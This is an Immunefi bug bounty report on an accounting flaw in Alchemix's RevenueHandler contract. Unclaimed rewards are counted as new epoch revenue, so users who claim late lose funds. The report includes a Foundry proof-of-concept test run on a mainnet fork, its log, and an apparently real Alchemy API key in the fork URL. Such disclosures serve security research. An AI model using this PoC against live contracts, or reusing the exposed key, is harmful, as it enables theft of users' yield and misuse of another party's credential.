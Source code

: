 
# `RevenueHandler.checkpoint` counts unclaimed rewards as new rewards causing reduced rewards for users who have not claimed rewards in time

Submitted on Wed May 15 2024 16:47:08 GMT-0400 (Atlantic Standard Time) by @yttriumzz for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31263

Report type: Smart Contract

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/RevenueHandler.sol

Impacts:
- Theft of unclaimed yield

## Description
## Brief/Intro

Anyone calls `RevenueHandler.checkpoint` to update the reward for the current epoch. `checkpoint` will calculate the reward based on the reward token balance of the contract. However, these balances include unclaimed rewards. In other words, the unclaimed rewards of some users are included in the rewards of the new epoch.

## Vulnerability Details

Please look at the following code. When `tokenConfig.poolAdapter` is not set, `thisBalance` is directly used as the reward for the new epoch.

```solidity
///// https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/RevenueHandler.sol#L245-L264
                uint256 thisBalance = IERC20(token).balanceOf(address(this));

                // If poolAdapter is set, the revenue token is an alchemic-token
                if (tokenConfig.poolAdapter != address(0)) {
                    // Treasury only receives revenue if the token is an alchemic-token
                    treasuryAmt = (thisBalance * treasuryPct) / BPS;
                    IERC20(token).safeTransfer(treasury, treasuryAmt);

                    // Only melt if there is an alchemic-token to melt to
                    amountReceived = _melt(token);

                    // Update amount of alchemic-token revenue received for this epoch
                    epochRevenues[currentEpoch][tokenConfig.debtToken] += amountReceived;
                } else {
                    // If the revenue token doesn't have a poolAdapter, it is not an alchemic-token
                    amountReceived = thisBalance;

                    // Update amount of non-alchemic-token revenue received for this epoch
                    epochRevenues[currentEpoch][token] += amountReceived;
                }
```

**Suggested fix**

Record the balance as a reward instead of using all the balance directly

## Impact Details

Users who claim rewards every epoch will receive more rewards, and other users will receive less rewards

## References

None
        
## Proof of concept
The PoC patch

```diff
diff --git a/src/test/RevenueHandler.t.sol b/src/test/RevenueHandler.t.sol
index 7908478..fd9cbe6 100644
--- a/src/test/RevenueHandler.t.sol
+++ b/src/test/RevenueHandler.t.sol
@@ -644,4 +644,58 @@ contract RevenueHandlerTest is BaseTest {
         revenueHandler.setTreasury(admin);
         assertEq(revenueHandler.treasury(), admin, "treasury should be admin");
     }
+
+    function testYttriumzzPocTemp() external {
+        // 1. init test env
+        deal(bal, address(this), 10000e18);
+        veALCX.checkpoint();
+
+        address user1 = address(0xacc1);
+        address user2 = address(0xacc2);
+        deal(bpt, user1, 1e18);
+        deal(bpt, user2, 1e18);
+
+        // 2. user1 and user2 mint $veToken with 1e18 BPT
+        hevm.startPrank(user1);
+        IERC20(bpt).approve(address(veALCX), 1e18);
+        uint256 tokenId1 = veALCX.createLock(1e18, 0, true);
+        hevm.stopPrank();
+
+        hevm.startPrank(user2);
+        IERC20(bpt).approve(address(veALCX), 1e18);
+        uint256 tokenId2 = veALCX.createLock(1e18, 0, true);
+        hevm.stopPrank();
+
+        vm.warp(block.timestamp + 2 weeks);
+        veALCX.checkpoint();
+
+        // 3. checkpoint 1, user1 claim the rewards
+        IERC20(bal).transfer(address(revenueHandler), 100e18);
+        revenueHandler.checkpoint();
+        vm.warp(block.timestamp + 2 weeks);
+
+        hevm.startPrank(user1);
+        revenueHandler.claim(tokenId1, bal, address(0), revenueHandler.claimable(tokenId1, bal), user1);
+        hevm.stopPrank();
+
+        // 4. checkpoint 2, user1 and user2 claim the rewards, user2 claim revert
+        IERC20(bal).transfer(address(revenueHandler), 100e18);
+        revenueHandler.checkpoint();
+        vm.warp(block.timestamp + 2 weeks);
+
+        hevm.startPrank(user1);
+        revenueHandler.claim(tokenId1, bal, address(0), revenueHandler.claimable(tokenId1, bal), user1);
+        hevm.stopPrank();
+
+        hevm.startPrank(user2);
+        uint256 toClaimable = revenueHandler.claimable(tokenId2, bal);
+        hevm.expectRevert("Not enough revenue to claim");
+        revenueHandler.claim(tokenId2, bal, address(0), toClaimable, user2);
+        console.log("claimable of user2 is %s, but revert", toClaimable);
+        hevm.stopPrank();
+
+        console.log("IERC20(bal).balanceOf(user1): %s", IERC20(bal).balanceOf(user1));
+        console.log("IERC20(bal).balanceOf(user2): %s", IERC20(bal).balanceOf(user2));
+        console.log("IERC20(bal).balanceOf(address(revenueHandler)): %s", IERC20(bal).balanceOf(address(revenueHandler)));
+    }
 }
```

Run the PoC

```bash
FOUNDRY_PROFILE=default forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/VFefkgjj8h3SgRYcCvmtp9KoMJJij6gD --fork-block-number 17133822 -vvv --match-test testYttriumzzPocTemp
```

The log

```bash
$ FOUNDRY_PROFILE=default forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/VFefkgjj8h3SgRYcCvmtp9KoMJJij6gD --fork-block-number 17133822 -vvv --match-test testYttriumzzPocTemp
[⠊] Compiling...
No files changed, compilation skipped

Ran 1 test for src/test/RevenueHandler.t.sol:RevenueHandlerTest
[PASS] testYttriumzzPocTemp() (gas: 3021917)
Logs:
  claimable of user2 is 125000000000000000000, but revert
  IERC20(bal).balanceOf(user1): 125000000000000000000
  IERC20(bal).balanceOf(user2): 0
  IERC20(bal).balanceOf(address(revenueHandler)): 75000000000000000000

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 35.59ms (19.80ms CPU time)

Ran 1 test suite in 1.81s (35.59ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

